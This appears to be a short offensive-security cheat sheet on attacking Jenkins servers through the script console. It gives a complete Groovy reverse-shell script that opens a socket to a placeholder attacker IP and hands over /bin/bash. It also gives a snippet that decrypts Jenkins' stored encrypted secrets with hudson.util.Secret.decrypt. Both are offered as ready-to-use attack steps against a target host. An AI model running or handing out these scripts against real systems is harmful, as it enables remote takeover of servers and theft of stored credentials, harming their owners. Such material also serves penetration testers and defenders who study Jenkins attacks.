 # Jenkins

## Reverse Shell via Jenkins

Go to Jenkins script console:

`https://target-jenkins/script`

Execute the following `Groovy` script to send you the reverse shell on port `8080`:

```shell
String host="ATTACKERS-IP-HERE";
int port=8080;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

> Don't forget setting you listener before run the script.

## Decoding a Jenkins encripted password

Go to Jenkins script console:

`https://target-jenkins/script`

Execute the following `Groovy` script to decode the encripted information:

```shell
hashed_pw='{ENC_PASS_HERE}'
passwd = hudson.util.Secret.decrypt(hashed_pw)
println(passwd)
```
